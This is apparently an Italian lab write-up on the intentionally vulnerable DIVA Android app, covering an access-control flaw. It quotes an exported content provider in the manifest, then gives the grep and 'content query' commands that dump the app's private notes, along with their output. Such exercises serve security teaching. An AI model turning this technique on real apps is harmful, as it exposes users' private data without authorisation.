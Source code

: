 ## Access Control Issues - Part 3

Codice Vulnerabile:

> app/src/main/AndroidManifest.xml

```
<provider
    android:name=".NotesProvider"
    android:authorities="jakhar.aseem.diva.provider.notesprovider"
    android:enabled="true"
    android:exported="true" >
</provider>
```

I content provider sono rappresentati usando URI che iniziano con `content://`

Exploit:

- `$ grep -r "content:" *`

`app/src/main/res/values/strings.xml:    <string name="notesprovider_url">content://jakhar.aseem.diva.provider.notesprovider/notes</string>`

- `content query --uri content://jakhar.aseem.diva.provider.notesprovider/notes`

```
Row: 0 _id=5, title=Exercise, note=Alternate days running
Row: 1 _id=4, title=Expense, note=Spent too much on home theater
Row: 2 _id=6, title=Weekend, note=b333333333333r
Row: 3 _id=3, title=holiday, note=Either Goa or Amsterdam
Row: 4 _id=2, title=home, note=Buy toys for baby, Order dinner
Row: 5 _id=1, title=office, note=10 Meetings. 5 Calls. Lunch with CEO
```
